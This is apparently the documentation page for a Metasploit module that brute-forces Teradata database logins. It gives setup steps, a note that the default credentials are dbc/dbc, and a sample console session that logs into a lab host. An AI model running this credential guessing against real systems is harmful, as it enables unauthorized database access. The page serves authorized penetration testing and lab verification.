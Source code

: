 The teradata_odbc_login module is used to brute-force credentials for Teradata databases.

## Vulnerable Application

* Teradata Database
* Teradata Express

Teradata databases can be identified by scanning for TCP port 1025. An Nmap version scan can confirm if the service is recognized as Teradata.

## Extra Requirements

This module requires the Teradata ODBC driver and the Teradata python library.

### ODBC Driver for Kali Linux 2017.3
1. Download the Teradata ODBC driver for Ubuntu from [downloads.teradata.com](https://downloads.teradata.com/download/connectivity/odbc-driver/linux).
2. Refer to the Ubuntu package README for up-to-date instructions.
   1. Install **lib32stdc++6** if necessary.
   2. Install the ODBC drivers: `dpkg -i [package].deb`
   3. Copy **/opt/teradata/client/ODBC_64/odbc.ini** to **/root/.odbc.ini** .
      * Or your home directory if not root.
      * Make sure **odbc.ini** has been renamed to **.obdc.ini** .

### Python Package
```
pip install teradata
```
## Verification Steps
1. Deploy a [Teradata Express](https://www.teradata.com/products-and-services/teradata-express) test environment.
2. Install the OBCD driver and python package.
3. Start msfconsole.
4. Do: `use auxiliary/scanner/teradata/teradata_odbc_login`
5. Do: `set RHOSTS [IPs]`
6. Do: `set USERNAME [username to try]`
7. Do: `set PASSWORD [password to try]`
   * The default Teradata credentials are the matching username and password 'dbc'.
8. Do: `run`

```
msf > use auxiliary/scanner/teradata/teradata_odbc_login
msf auxiliary(scanner/teradata/teradata_odbc_login) > set RHOSTS 192.168.0.2
RHOSTS => 192.168.0.2
msf auxiliary(scanner/teradata/teradata_odbc_login) > set USERNAME dbc
USERNAME => dbc
msf auxiliary(scanner/teradata/teradata_odbc_login) > set PASSWORD dbc
PASSWORD => dbc
msf auxiliary(scanner/teradata/teradata_odbc_login) > run

[*] Running for 192.168.0.2...
[*] 192.168.0.2:1025 - Creating connection: %s
[*] 192.168.0.2:1025 - Loading ODBC Library: %s
[*] 192.168.0.2:1025 - Method succeeded with info:  [26] 523 24
[*] 192.168.0.2:1025 - Method succeeded with info:  [26] 523 24
[*] 192.168.0.2:1025 - Available drivers: Teradata Database ODBC Driver 16.20, 
[*] 192.168.0.2:1025 - Creating connection using ODBC ConnectString: %s
[*] 192.168.0.2:1025 - Setting AUTOCOMMIT to %s
[*] 192.168.0.2:1025 - FETCH_SIZE: 1
[*] 192.168.0.2:1025 - Buffer size for column %s: %s
[*] 192.168.0.2:1025 - SELECT SESSION returned %s
[*] 192.168.0.2:1025 - Executing query on session %s using SQLExecDirectW: %s
[*] 192.168.0.2:1025 - Committing transaction...
[*] 192.168.0.2:1025 - Created session %s.
[*] 192.168.0.2:1025 - Creating cursor %s for session %s.
[*] 192.168.0.2:1025 - Connection successful. Duration: %.3f seconds. Details: %s
[*] 192.168.0.2:1025 - Closing cursor %s for session %s.
[*] 192.168.0.2:1025 - Closing session %s...
[*] 192.168.0.2:1025 - Session %s closed.
[+] 192.168.0.2:1025 - [1/1] - dbc:dbc - Success
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
